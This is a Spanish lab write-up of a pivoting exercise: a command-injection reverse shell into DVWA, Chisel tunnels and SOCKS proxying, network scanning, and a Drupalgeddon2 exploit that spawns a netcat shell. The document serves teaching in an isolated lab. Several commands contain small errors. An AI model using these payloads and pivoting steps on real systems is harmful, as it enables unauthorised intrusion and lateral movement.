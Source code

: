 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-26T15:53:07.302Z
tags: 
editor: markdown
dateCreated: 2024-12-20T19:29:42.236Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
\<h1> HOLAAA </h1\>


## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="(IP de KALI)";export RPORT=(PUERTO DE KALI);nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/imagen_hacking_pivotaje_1.png)

Luego en la herramienta de FoxyProxy, vamos a añadir una nueva entrada con lo siguiente:
![imagen_hacking_pivotaje_2.png](/imagen_hacking_pivotaje_2.png)

> No lo activamos todavia
{.is-warning}

Tras esto, tendremos listo un proxy que puede analizar todas las peticiones como si estuvieramos viendolo desde el seridor DVWA.

Lo siguiente que haremos será establecer la conexión con chisel para poder, para ello en Kali escribiremos: 
```console
./chisel server -p 4000 --reverse
```

En nuestra maquina vulnerada (DVWA), deberemos escrbir lo siguiente:
```console
./chisel client (ip kali):4000 R:8000:127.0.0.1:8000
```

Si todo va bien, desde nuestra maquina local podremos buscar el servidor local que hicimos en DVWA:
![imagen_hacking_pivotaje_3.png](/imagen_hacking_pivotaje_3.png)


Ahora vamos a usar el socks5 que configuramos anteriormente. Para ello deberemos poner en nuestra maquina local:
```console
./chisel server -p 4000 --reverse --socks5
```

Y en nuestra maquina DVWA, vamos a poner:
```console
./chisel server -p 4000 --reverse R:socks
```


Tras esto, si activamos el proxy, podremos hacer la busqueda del servidor directametne en el navegador.

### Entrar en Debian
Para poder tener acceso a este nuevo servidor, como ya tenemos una shell ocupada con la comunicaciones, vamos a abrir un nueva shell. Para ello deberemos hacer los mismos paso que hicimos anteriormente (nc -lnvp).
Una vez tengamos una nueva shell, vamos a intentar descubrir las IP locales en esta red, para ello primero hacemos:
```script
ip a
```

Y una vez sepamos el rango de la IP, en mi caso 10.0.0.6/24. Vamos a poner un pequeño script en la máquina DVWA para detectar el resto de IPs, el escript es el siguiente:
```bash
for j in $(seq 1 10);do ping -c 10.0.3.$j > /dev/null && echo "host activo 10.0.3.$j";done
```
Esto nos devolverá un listado grande de IPs por lo que deberemos deducir cuál es el server, para ello podemos hacer uso de nmpa con:
```bash
proxychains4 -q nmap -sT -Pn 10.0.3.4
```
> Ir probando la IP con cada uno de los resultados para ver los puertos disponibles.
{.is-info}

Cuando entramos en el website, podemos descrubir que es un servidor Drupal con una vulnerabilidad de Drupalgeddon2. Por lo que podemos usar el exploit (Disponible en GitHub), para poder explotarlo.

Una vez tengamos el exploit disponible vamos a realizar lo siguiente:
- En una terminal de DVWA vamos a poner:
```bash
./chisel client (kali):4000 0.0.0.0:9999:(kali):9999
```
- En una terminal de kali:
```bash
nc -lnvp 9999
```
- En otra terminal de kali, sin cerrar la anterior:
```bash
proxychains 4 -q python2 exploit.py -h http://(ip/ dc-1) -c 'nohup nc -e /bin/bash (Ip Dvwa) 9999 &'
```